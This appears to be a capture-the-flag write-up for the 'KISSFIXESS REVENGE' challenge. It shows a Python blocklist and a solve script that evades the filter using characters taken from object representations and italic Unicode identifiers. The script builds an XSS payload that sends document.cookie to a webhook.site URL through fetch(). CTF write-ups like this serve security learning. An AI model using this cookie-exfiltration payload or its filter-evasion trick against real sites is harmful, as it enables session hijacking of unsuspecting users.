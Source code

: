 # KISSFIXESS REVENGE

```text
Okay, NOW ain't nobody gonna solve it.
```

points: `50`

solves: `76`

author: `hofill`

---

This is a sequel to the [KISSFIXESS](./KISSFIXESS.md) challenge

This time, more strings are banned:

```python
banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "&", "%", "^", "#", "@", "!", "*", "-", "import", "eval", "exec", "os", ";", ",", "|", "JAVASCRIPT", "window", "atob", "btoa", "="]
```

Python evaluates `pow` as follows. Characters from the output can be used

```text
>>> pow
<built-in function pow>
```

![image](../images/k5.png)

`self` is not allowed, but italicized *self* :

![image](../images/k6.png)

Solve script (credits: [@CerealSoup](https://github.com/DarkGuy10)):

```python
from base64 import b64encode

substitutions = {
    "&": "${banned[0]}",
    "<": "${banned[1]}",
    ">": "${banned[2]}",
    "(": "${banned[3]}",
    ")": "${banned[4]}",
    ".": "${f'{𝘴𝘦𝘭𝘧}'[5]}",
    "l": "${f'{pow}'[4]}",
    "s": "${f'{𝘴𝘦𝘭𝘧}'[26]}",
    "window": "w${f'{pow}'[3]}ndow",
    "atob": "ato${f'{pow}'[1]}",
}


js_payload = b"fetch('https://webhook.site/51db469d-d555-4496-b6fc-9cc9d9344385/?flag=' + document.cookie);;"
encoded = b64encode(js_payload).decode()
payload = f"</div><SCRIPT>eval(window.atob(`{encoded}`))</SCRIPT>"

for key, sub in substitutions.items():
    payload = payload.replace(key, sub)

print(payload)
```
